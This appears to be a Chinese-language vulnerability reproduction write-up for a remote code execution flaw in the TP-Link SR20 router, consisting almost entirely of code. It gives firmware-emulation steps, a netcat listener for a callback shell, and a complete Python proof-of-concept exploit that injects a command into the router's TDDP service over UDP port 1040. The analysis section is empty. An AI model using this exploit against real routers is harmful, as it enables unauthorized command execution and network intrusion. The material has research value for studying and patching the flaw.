

# TP-Link SR20 本地网络远程代码执行漏洞


## 漏洞分析

## 漏洞复现

```sh
# 解压固件
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer /root/firmware/tpra_sr20v1_us-up-ver1-2-1-P522_20180518-rel77140_2018-05-21_08.42.04.bin

$ docker-compose -f docker-compose-system.yml build
$ docker-compose -f docker-compose-system.yml up

# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it tplink-system /bin/bash
# 宿主机使用 nc 监听端口
$ nc -lvnp 1337
# 在另一个窗口执行 poc，执行的命令在 exe_nc 中
$ python2 tools/poc.py 192.168.2.2 /exe_nc
```

结果如下图所示：




## Exploit

```py
import sys
import binascii
import socket
 
port_send = 1040
port_receive = 61000
 
tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00
 
tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])
 
sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))
 
# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()
 
response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```

## 参考链接

- https://bbs.pediy.com/thread-263539.htm
